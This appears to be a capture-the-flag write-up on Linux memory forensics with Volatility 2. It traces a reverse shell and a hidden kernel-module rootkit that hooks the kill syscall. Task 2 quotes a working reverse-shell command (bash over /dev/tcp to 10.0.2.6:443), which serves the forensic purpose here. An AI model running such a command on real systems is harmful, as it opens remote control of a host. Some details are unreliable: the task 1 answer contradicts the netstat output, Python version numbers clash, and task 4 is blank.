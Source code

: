 
## Setup

For the challenge python2.7 is required to run volatility 2 as the challenge provides `.mem` file and `Ubuntu-*` profile which volatility3 can be a pain in the ass

setting up python 2.7.16 env with pyenv
```
brew install pyenv
pyenv install 2.7.1
export PATH="$(pyenv root)/shims:${PATH}"
echo 'PATH=$(pyenv root)/shims:$PATH' >> ~/.zshrc
pyenv init
```
https://stackoverflow.com/questions/71739870/how-to-install-python-2-on-macos-12-3

## Volatility 2

cloning the git
`https://github.com/volatilityfoundation/volatility.git`

moving into pyenv shell
`pyenv shell 2.7.18`

Everything works. Moving the given Ubuntu* profile zip folder to `<volatility-git-root>\volatility\plugins\overlays\linux\` folder and the command

`python vol.py --info ` showed the profile as `LinuxUbuntu_5_3_0-70-generic_profilex64`

## Analysis on .mem file

### task 1

`linux_netstat` gave the following
```
TCP      10.0.2.15       :55704 10.0.2.6        :  443 ESTABLISHED                  bash/3633
TCP      10.0.2.15       :55704 10.0.2.6        :  443 ESTABLISHED                  bash/3633
TCP      10.0.2.15       :55704 10.0.2.6        :  443 ESTABLISHED                  bash/3633
TCP      10.0.2.15       :55704 10.0.2.6        :  443 ESTABLISHED                  bash/3633
```

Answer : 10.0.2.16:443

### task 2

`strings dump.mem | grep 10.0.2.6` gave some strings in dump file which contains entries for root process which started the reverse shell
`root      3632  0.0  0.2  18380  3100 ?        S    20:42   0:00 /bin/bash -c bash -i >& /dev/tcp/10.0.2.6/443 0>&1`

### task 3

`python vol.py -f ../dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_hidden_modules`

gave the malicious hidden module `nfentlink`

### task 4


### task 5
find inode of the module file
`python volatility/vol.py -f dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_find_file -F '/lib/modules/5.3.0-70-generic/kernel/drivers/net/nfnetlink.ko'`

dumping the module file
`python volatility/vol.py -f dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_find_file -i 0xffff98ea266b5a68 -O nfnetlink.ko`

### task 6

`md5sum nfnetlink.ko`

`35bd8e64b021b862a0e650b13e0a57f7`

### task 7

from the file system dump the legit path for the netlink module is
`/lib/modules/5.3.0-70-generic/kernel/net/netfilter/nfnetlink.ko`

### task 8

dumping the legit module
`python volatility/vol.py -f dump.mem --profile=LinuxUbuntu_5_3_0-70-generic_profilex64 linux_find_file -i 0xffff98ea427dcda8 -O nfnetlink-legit.ko`


### task 9

searching for the strings in the dumpe module `nfnetfilter_init` is the function to initialize the module

### task 10
`__x64_sys_kill`

### task 11

64 - SIGMAX
